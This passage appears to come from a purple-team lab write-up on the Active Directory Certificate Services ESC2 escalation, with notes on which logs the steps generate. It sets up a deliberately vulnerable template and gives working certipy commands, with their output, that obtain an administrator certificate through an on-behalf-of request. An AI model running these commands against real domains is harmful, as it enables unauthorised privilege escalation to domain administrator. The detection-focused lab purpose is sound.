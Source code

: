 This is seems to be the common behavior for all certificates requests made with certipy.

# 4. ESC2 

## 4.1 Create a vulnerable template

- From the duplicated User certificate template, apply the following configuration ![ESC2_configuration.png](ESC2/ESC2_configuration.png)

## 4.2 Exploitation

The ESC2 escalation path can be used like a ESC1 (if we can specify a SAN), else we can use it like an ESC3. 
The ESC1 method will generate the same type of log as observed above. The ESC3 method will however generate different logs.

- Request to a vulnerable template 
```
└─$ certipy req -u attacker@purpleteam.local -p '1attacker*' -ca DC01-CA -template "Vuln-ESC2"  -dc-ip 172.16.0.1 -out cert
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 25
[*] Successfully requested certificate
[*] Got certificate without identity
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'cert.pfx'
[*] Wrote certificate and private key to 'cert.pfx'
```
This first step doesn't generates pertinent logs outside 4768 with certipy ticket option.

- Use the issued certificate to request another certificate on behalf of the targeted user
```
└─$ certipy req -u attacker@purpleteam.local -p '1attacker*' -ca DC01-CA -template "user"  -dc-ip 172.16.0.1 -on-behalf-of 'purpleteam\administrator' -sid 'S-1-5-21-2903762927-2752062241-1101764633-500' -pfx cert.pfx 
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 26
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@purpleteam.local'
[*] Certificate object SID is 'S-1-5-21-2903762927-2752062241-1101764633-500'
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```
